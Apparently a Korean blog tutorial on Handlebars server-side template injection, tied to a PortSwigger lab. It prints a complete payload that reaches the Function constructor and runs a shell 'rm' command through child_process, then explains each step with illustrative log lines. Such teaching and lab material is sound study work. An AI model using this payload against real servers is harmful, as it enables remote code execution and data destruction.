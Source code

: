 ```yaml
---
title: Handlebars SSTI
desc: What is Handlebars SSTI?
date: 2024-12-04
thumbnail: /posts/advanced_skill/mongodb_injection/thumbnail.png
---
```


## What's Handlebars SSTI?
Handlebars SSTI는 서버 측 템플릿 엔진인 Handlebars에서 발생할 수 있는 보안 취약점입니다.

이 취약점은 공격자가 서버에서 실행되는 코드를 주입할 수 있게 하여, 원하지 않는 명령어 실행이나 데이터 유출을 초래할 수 있습니다.

> 💡4.0.14 이전 버전에서만 취약합니다. 

---
## Background

### SSTI
ServerSide Template Injection의 약자로 Template 엔진에 악의적인 구문을 넣어 공격이 성공한다면 RCE, LFI 등을 실행할 수 있다.

### Handlebars
NodeJs 기반 프레임워크에서 사용되는 Template 엔진

---
## Payload
```handlebars
{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

---
## Payload Explain

### 1. "s" 문자열을 변수화
```handlebars
{{#with "s" as |string|}}
    ...
{{/with}}
```
```{{#with ... as |alias|}}```는 Handlebars.js에서 제공하는 블록 헬퍼로, "s"라는 문자열을 **string**이라는 이름으로 변수화합니다. 이 변수는 이후 조작 대상이 됩니다.

```log
[INFO] "s" 문자열이 string 변수로 할당됨
[DEBUG] string = "s"
```

### 2. split 객체를 conslist라는 변수로 할당
```handlebars
{{#with split as |conslist|}}
    ...
{{/with}}
```
```split```은 JavaScript에서 문자열을 특정 구분자를 기준으로 나누는 메서드입니다. 이 템플릿에서는 이를 통해 리스트(배열)처럼 보이는 객체를 생성합니다.
생성된 리스트는 ```conslist```라는 이름으로 저장되며, 이후 객체 내부 메서드(push, pop)를 이용해 조작됩니다.

```log
[INFO] split 객체가 conslist로 할당됨
[DEBUG] conslist 초기값 = []
```

### 3. pop 메서드 호출
```handlebars
{{this.pop}}
```
```pop``` 메서드는 배열의 마지막 요소를 제거하고 반환합니다.
리스트가 비어있으므로 아무것도 하지 않음
```log
[INFO] conslist에서 pop 메서드 호출
[DEBUG] conslist = []
```

### 4. constructor 객체에 접근
```handlebars
{{this.push (lookup string.sub "constructor")}}
```
```lookup```는 특정 객체의 속성이나 메서드에 접근하는 헬퍼입니다. 
여기서```string.sub```는 string 객체에서 sub 메서드를 참조한 것입니다.
```constructor```는 JavaScript의 모든 객체에 존재하는 기본 속성으로, 생성자 함수에 접근하는 데 사용됩니다.
결과적으로 이 코드는 JavaScript의 Function constructor를 참조하여 임의 코드 실행이 가능하게 만듭니다.

```log
[INFO] string.sub 메서드의 constructor 속성 참조 시도
[DEBUG] constructor = [Function: Function]
[INFO] conslist에 constructor 참조 추가
[DEBUG] conslist = [[Function: Function]]
```

### 5. 시스템 명령어 정의
```handlebars
{{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
```
여기서 push를 통해 리스트에 시스템 명령어를 포함하는 문자열을 삽입합니다.
명령어 내용:
```require('child_process')```Node.js에서 시스템 명령어를 실행할 수 있는 모듈을 로드합니다.
```.exec(...)```시스템 쉘 명령어를 실행하는 메서드로, 여기서는 서버에서 특정 파일(/home/carlos/morale.txt)을 삭제하는 명령어(rm)를 실행하려고 합니다.

### 6. 템플릿 반복문 실행
```handlebars
{{#each conslist}}
    {{#with (string.sub.apply 0 codelist)}}
        {{this}}
    {{/with}}
{{/each}}
```
#each는 Handlebars.js에서 제공하는 반복문으로, 리스트(conslist)의 모든 요소를 순회합니다.
```string.sub.apply(0, codelist)```
string.sub는 문자열 메서드를 참조한 것으로, .apply를 사용해 실행 시 인자를 리스트로 전달합니다.
이를 통해 조작된 codelist를 실행 컨텍스트에 적용하여 JavaScript 코드를 실행하려 합니다.
최종적으로 ```{{this}}```는 템플릿 내에서 현재 컨텍스트를 출력하거나 실행하는 데 사용됩니다.



공격자는 템플릿 엔진이 제공하는 헬퍼와 메서드 체인 조작 기능을 이용해 JavaScript의 Function constructor에 접근하고, 이를 통해 코드를 실행합니다.

---
## Reference
https://book.hacktricks.xyz/kr/pentesting-web/ssti-server-side-template-injection
https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html
https://handlebarsjs.com/ko/guide/builtin-helpers.html#with

---
## Lab
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit